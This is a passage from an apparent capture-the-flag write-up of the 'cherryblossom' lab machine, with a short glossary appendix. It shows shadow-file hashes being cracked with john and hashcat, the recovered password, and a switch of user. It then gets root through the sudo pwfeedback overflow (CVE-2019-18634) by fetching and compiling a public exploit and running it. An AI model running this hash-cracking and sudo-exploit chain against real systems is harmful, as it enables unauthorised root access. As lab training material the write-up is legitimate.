johan:$6$zV7zbU1b$FomT/aM2UMXqNnqspi57K/hHBG8DkyACiV6ykYmxsZG.vLALyf7kjsqYjwW391j1bue2/.SVm91uno5DUX7ob0:18301:0:99999:7:::
lily:$6$3GPkY0ZP$6zlBpNWsBHgo6X5P7kI2JG6loUkZBIOtuOxjZpD71spVdgqM4CTXMFYVScHHTCDP0dG2rhDA8uC18/Vid3JCk0:18301:0:99999:7:::
sshd:*:18301:0:99999:7:::
```

> **SHA512 Password Cracking & Switch User**
> 

`hashid '$6$zV7zbU1b$FomT/aM2UMXqNnqspi57K/hHBG8DkyACiV6ykYmxsZG.vLALyf7kjsqYjwW391j1bue2/.SVm91uno5DUX7ob0’`

```bash
[+] SHA-512 Crypt
```

`echo '$6$zV7zbU1b$FomT/aM2UMXqNnqspi57K/hHBG8DkyACiV6ykYmxsZG.vLALyf7kjsqYjwW391j1bue2/.SVm91uno5DUX7ob0' > shadowhash`

`sudo john --wordlist=cherry-blossom.list shadowhash`

```bash
##scuffleboo##   (?) 
```

`hashcat -m1800 -a0 --force '$6$zV7zbU1b$FomT/aM2UMXqNnqspi57K/hHBG8DkyACiV6ykYmxsZG.vLALyf7kjsqYjwW391j1bue2/.SVm91uno5DUX7ob0' cherry-blossom.list`

```bash
$6$zV7zbU1b$FomT/aM2UMXqNnqspi57K/hHBG8DkyACiV6ykYmxsZG.vLALyf7kjsqYjwW391j1bue2/.SVm91uno5DUX7ob0:##scuffleboo##
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))

[REDACTED] - MORE
```

```bash
lily@cherryblossom:/var/backups$ su johan
Password: 
johan@cherryblossom:/var/backups$ whoami
johan
johan@cherryblossom:/var/backups$ id
uid=1001(johan) gid=1001(johan) groups=1001(johan),1003(devs)
johan@cherryblossom:/var/backups$  
```

> **Privilege Escalation with pwdfeedback**
> 

```bash
johan@cherryblossom:/var/backups$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
johan@cherryblossom:/var/backups$ 
```

`searchsploit "sudo 1.8”`

```bash
---------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------- ---------------------------------
sudo 1.8.0 < 1.8.3p1 - 'sudo_debug' glibc FORTIFY_SOURCE Bypass + Privilege Escalation                          | linux/local/25134.c
sudo 1.8.0 < 1.8.3p1 - Format String                                                                            | linux/dos/18436.txt
sudo 1.8.0 to 1.9.12p1 - Privilege Escalation                                                                   | linux/local/51217.sh
Sudo 1.8.14 (RHEL 5/6/7 / Ubuntu) - 'Sudoedit' Unauthorized Privilege Escalation                                | linux/local/37710.txt
Sudo 1.8.20 - 'get_process_ttyname()' Local Privilege Escalation                                                | linux/local/42183.c
Sudo 1.8.25p - 'pwfeedback' Buffer Overflow                                                                     | linux/local/48052.sh
Sudo 1.8.25p - 'pwfeedback' Buffer Overflow (PoC)                                                               | linux/dos/47995.txt
sudo 1.8.27 - Security Bypass                                                                                   | linux/local/47502.py
---------------------------------------------------------------------------------------------------------------- ---------------------------------
```

```bash
johan@cherryblossom:/var/backups$ sudo -l
[sudo] password for johan: ****************************                          
Sorry, try again.
[sudo] password for johan: *************                       
Sorry, try again.
[sudo] password for johan: ************************ 
sudo: 3 incorrect password attempts
johan@cherryblossom:/var/backups$ which perl
/usr/bin/perl
johan@cherryblossom:/var/backups$ perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S /bin/bash
[sudo] password for johan: Segmentation fault (core dumped)
johan@cherryblossom:/var/backups$ 
```

`ls -lsa sudo-cve-2019-18634`

```bash
total 36
4 drwxr-xr-x 3 root root 4096 Sep 26 10:18 .
4 drwxr-xr-x 4 root root 4096 Sep 26 10:18 ..
8 -rw-r--r-- 1 root root 6311 Sep 26 10:18 exploit.c
4 drwxr-xr-x 8 root root 4096 Sep 26 10:18 .git
4 -rw-r--r-- 1 root root    8 Sep 26 10:18 .gitignore
4 -rw-r--r-- 1 root root 1057 Sep 26 10:18 LICENSE
4 -rw-r--r-- 1 root root  230 Sep 26 10:18 Makefile
4 -rw-r--r-- 1 root root  185 Sep 26 10:18 README.md
```

**For script source:**

[https://github.com/saleemrashid/sudo-cve-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634)

`gcc sudo-cve-2019-18634/exploit.c -o exploitpwd`

`cp sudo-cve-2019-18634/exploit.c exploit.c`

`python3 -m http.server 8000`

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
johan@cherryblossom:/var/backups$ cd ~
johan@cherryblossom:~$ wget http://10.2.37.37:8000/exploitpwd
--2024-09-26 15:19:10--  http://10.2.37.37:8000/exploitpwd
Connecting to 10.2.37.37:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16816 (16K) [application/octet-stream]
Saving to: ‘exploitpwd’

exploitpwd                           100%[====================================================================>]  16.42K  48.4KB/s    in 0.3s    

2024-09-26 15:19:11 (48.4 KB/s) - ‘exploitpwd’ saved [16816/16816]

johan@cherryblossom:~$ chmod +x exploitpwd
johan@cherryblossom:~$ cp exploitpwd /tmp/exploitpwd
johan@cherryblossom:~$ cd /tmp
johan@cherryblossom:/tmp$ ./exploitpwd
./exploitpwd: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./exploitpwd)

johan@cherryblossom:/tmp$ wget http://10.2.37.37:8000/exploit.c
--2024-09-26 15:22:49--  http://10.2.37.37:8000/exploit.c
Connecting to 10.2.37.37:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6311 (6.2K) [text/x-csrc]
Saving to: ‘exploit.c’

exploit.c                            100%[====================================================================>]   6.16K  --.-KB/s    in 0.001s  

2024-09-26 15:22:50 (8.37 MB/s) - ‘exploit.c’ saved [6311/6311]

johan@cherryblossom:/tmp$ /usr/bin/gcc-7 exploit.c -o cveexploit
johan@cherryblossom:/tmp$ chmod +x cveexploit
johan@cherryblossom:/tmp$ ./cveexploit
[sudo] password for johan: 
Sorry, try again.
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1001(johan),1003(devs)
# pwd
/tmp
# 

```

# Appendix

## SMB (Server Message Block)

<aside>
💡

Server Message Block (SMB) is a network protocol used for sharing files, printers, and other resources between computers in a network. It allows computers to read and write to files, request services, and communicate with network devices like printers and servers. SMB is mainly used in Windows environments but is also supported by Linux and macOS systems. In a Windows domain, SMB allows centralized file sharing and resource access, with users authenticated via Active Directory. In the context of SMB (Server Message Block), a share refers to a network resource such as a file directory, printer, or device that is made available to other users or computers on the network.

</aside>

## Steganography

<aside>
💡

Steganography is the practice of hiding a secret message or data within another non-secret file, message, or image, in such a way that only the intended recipient knows of its existence. Unlike encryption, where the content is scrambled but visible, steganography conceals the fact that there is any hidden content at all. It can be used in various media such as text, images, audio, or video files. The goal is to make the hidden message undetectable to anyone other than the recipient.

</aside>

## ZIP Archive

<aside>
💡

A ZIP archive is a file format used to compress and store multiple files and folders into a single, smaller file, typically with a .zip extension. The ZIP format not only compresses the files to reduce storage space but also allows for easier transfer or sharing of multiple files as a single package. ZIP files use lossless compression, meaning the original data can be restored fully when unzipped. Various compression algorithms, such as DEFLATE, are used to reduce the size of the files inside the archive.

</aside>

## 7-ZIP

<aside>
💡

7-ZIP is an open-source file archiver and compression tool that allows users to compress, decompress, and manage files. It is known for its ability to handle various compression formats, including its own highly efficient compression format, 7z. The software is popular for its high compression ratios, free availability, and broad range of supported formats. The default format of 7-ZIP, offering higher compression ratios compared to ZIP and other formats, using advanced algorithms like LZMA (Lempel–Ziv–Markov chain algorithm).

</aside>

## pwdfeedback

<aside>
💡

pwdfeedback is a feature related to the sudo command in Unix-like operating systems (such as Linux) that provides visual feedback when you enter your password. Specifically, when enabled, it shows asterisks (*) or dots as you type your password at the sudo prompt. This feedback is meant to give the user some indication that their input is being recognized.

</aside>